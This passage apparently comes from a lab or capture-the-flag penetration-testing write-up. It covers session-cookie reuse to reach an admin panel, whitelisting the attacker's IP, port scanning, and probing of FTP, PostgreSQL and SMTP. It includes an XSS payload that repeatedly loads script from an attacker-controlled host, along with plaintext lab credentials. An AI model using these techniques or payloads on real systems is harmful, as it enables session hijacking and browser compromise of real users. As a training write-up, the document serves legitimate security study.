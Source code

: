 Finally, it looks like the key was to replace the cookie in admin web panel with the guest cookie of the intra domain:
`PHPSESSID=0odd3bi4qisdjneddjpjjs8fu4`

Then we observe that there is a firewall modifier and we can now grant access to our ip, so let's do it and re-scan the ports 
```
PORT     STATE SERVICE    REASON
21/tcp   open  ftp        syn-ack ttl 63
22/tcp   open  ssh        syn-ack ttl 63
80/tcp   open  http       syn-ack ttl 63
443/tcp  open  https      syn-ack ttl 63
1025/tcp open  NFS-or-IIS syn-ack ttl 63
5432/tcp open  postgresql syn-ack ttl 63
```

We now have an ftp and  a couple of more ports. Let's try the ftp server first.
```
DEBUG: All checks passed... Executing iptables Network access granted to 10.10.16.4 Network access granted to 10.10.16.4
```

It looks like there is no anonymous access over there. Let's try to acces the postgres database then:
```
psql -U charles -h $(cat ip) -p 5432   --list
```

Nothing interesting found on postgresql database port, let's go for 1025 one!

It looks like it may be related to SMTP service, so let's try some SMTP stuff:
```
nc -vn $(cat ip) 1025
```

We can also create users
```
guest : 8yh5jVIP
```

It's bullshit, it opens a very restricted shel.

Let's try XXS on the users page.
```
<script>alert(123)</script> 
```
And boom, it works.

```
<svg/onload=setInterval(function(){d=document;z=d.createElement("script");z.src="//10.10.16.6:31415";d.body.appendChild(z)},0)>
```

## Lets get back to it

We co first into intra domain, use the guest user and captire the cookie to reutilise it on the admin portal. Then we are in and we can create a new user to inspect the exploitable script:
**admin : Cj3sxtSa**
